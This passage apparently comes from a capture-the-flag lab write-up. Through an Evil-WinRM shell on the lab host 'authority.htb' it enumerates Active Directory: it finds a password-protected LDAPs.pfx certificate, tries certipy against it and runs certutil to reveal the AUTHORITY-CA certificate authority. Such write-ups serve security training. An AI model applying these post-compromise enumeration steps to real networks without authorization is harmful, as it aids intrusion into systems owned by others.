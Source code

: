 
## Enumerating Active Directory

---

In the `C:\` directory, there's a "Certs" directory containing a certificate named `LDAPs.pfx`.

```cmd
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/23/2023   6:16 PM                Certs
d-----        3/28/2023   1:59 PM                Department Shares
d-----        3/17/2023   9:20 AM                Development
d-----         8/9/2022   7:00 PM                inetpub
d-----        3/24/2023   8:22 PM                PerfLogs
d-r---        3/25/2023   1:20 AM                Program Files
d-----        3/25/2023   1:19 AM                Program Files (x86)
d-----         8/5/2023   7:23 PM                pwm
d-r---        3/24/2023  11:27 PM                Users
d-----        7/12/2023   1:19 PM                Windows
-a----        8/10/2022   8:44 PM       84784749 pwm-onejar-2.0.3.jar

*Evil-WinRM* PS C:\> ls "C:/Certs/"


    Directory: C:\Certs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/23/2023   6:11 PM           4933 LDAPs.pfx
```

The certificate is password protected. Nevertheless, its presence alone suggests the existence of Active Directory Certificate Services (AD CS).

```bash
❯ certipy cert -pfx LDAPs.pfx
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[-] Got error: Invalid password or PKCS12 data
[-] Use -debug to print a stacktrace
```

A Certutil dump confirms the presence of a certificate authority named `AUTHORITY-CA` in the environment.

```bash
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> certutil -dump
Entry 0: (Local)
  Name:                         "AUTHORITY-CA"
  Organizational Unit:          ""
  Organization:                 ""
  Locality:                     ""
  State:                        ""
  Country/region:               ""
  Config:                       "authority.authority.htb\AUTHORITY-CA"
  Exchange Certificate:         ""
  Signature Certificate:        "authority.authority.htb_AUTHORITY-CA.crt"
  Description:                  ""
  Server:                       "authority.authority.htb"
```